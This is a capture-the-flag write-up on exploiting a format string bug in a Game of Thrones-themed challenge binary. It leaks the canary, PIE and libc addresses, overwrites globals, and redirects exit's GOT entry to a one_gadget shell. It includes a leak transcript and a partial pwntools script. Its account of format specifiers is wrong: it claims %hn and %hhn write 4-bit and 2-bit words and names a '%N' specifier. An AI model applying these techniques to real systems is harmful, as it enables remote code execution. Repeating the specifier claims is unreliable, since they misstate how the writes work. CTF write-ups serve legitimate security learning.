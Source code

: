 ## Exploitation:

From the above understanding of the program, we can conclude a few things:
- Since `PIE` and `Canary` are enabled, we will have to leak them using the format string bug in `use_dragons`. Followed by this, we can also get a libc leak in a similar fashion. The format specifier usually used to leakd addresses is `%x` or `%p`. I'll be using `%p` in my exploit.
- Overwrite the global variables `num_men` and `num_dragons` with `30000` and `200` so as to call `exit()` in `exit_function`. We use `%N` to overwrite the 8 bit word, a `%hn` to overwrite a 4 bit word, and a `%hhn` to overwrite a 2 bit word.
- Lastly, we shall overwrite `exit_got` with a `one_gadget` address. The address of this `one_gadget` can be obtained using the [one_gadget](https://github.com/david942j/one_gadget) tool. The libc is also provided, so there shouldn't be an issue regarding different offsets in libc.

For leaking the addresses, we may simply look at the stack, i.e set a breakpoint before `printf` in `use_dragons` is called. I found the offsets for the `libc`, `canary` and `code` to be at `9`, `11`, and `13`. Furthermore, in order to overwrite the global variables `num_dragons` and `num_men`, the offset can be checked by spamming a few a's and then leaking the addresses to know where our input string begins. For example in this case our offset for writing can be calculated as:

```
Are you going to kill the white walkers ?
> aaaaaaaaaaaaaaa %p %p %p %p %p %p %p %p %p %p %p
aaaaaaaaaaaaaaa 0xa (nil) (nil) 0x31 0x7fffffff 0x55adae26d96c 0x55adae26d928 0x7fe6934688a0 0x132310b9f 0x6161616161616161 0x2061616161616161
```
Since our input string `aaaaaaaaaaaaaaa` is found at offset `10` with `0xa` beign leaked at offset `1`, we can say that everything we write onto the stack will get stored from offset `10`. Thus while overwriting, we may just keep in mind the required offset by looking into GDB and if there is any buffer needed to just align the addresses to 8 bytes.

Also looking at the registers when the exit() function is finally called, I used the following libc offset for execve call:
```
0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL
````


## Exploit:
```
def use_dragons(data):
	p.sendlineafter('Your choice: ', '1')
	p.sendlineafter('Say something in Valyrian: ', data)
	s = p.recvline()
	leak = int(s[-15:-1], 16)
	
	return leak
	
def kings_landing(choice, num_dragons, data):
	p.sendlineafter('Your choice: ', choice)
	p.sendline('2')
	p.sendlineafter('How many dragons would you like to use ?\n> ', str(num_dragons))
	p.sendlineafter('Are you going to kill the white walkers ?\n> ', data)
	
def white_walkers(choice):
	p.sendlineafter('Your choice: ', choice)
	
from pwn import *

p = process('./chall', env={"LD_PRELOAD":"./libc.so.6"})
exe = ELF('./chall')

gdb.attach(p, gdbscript='b*use_dragons+167\nb*kings_landing+333\nc\n')
```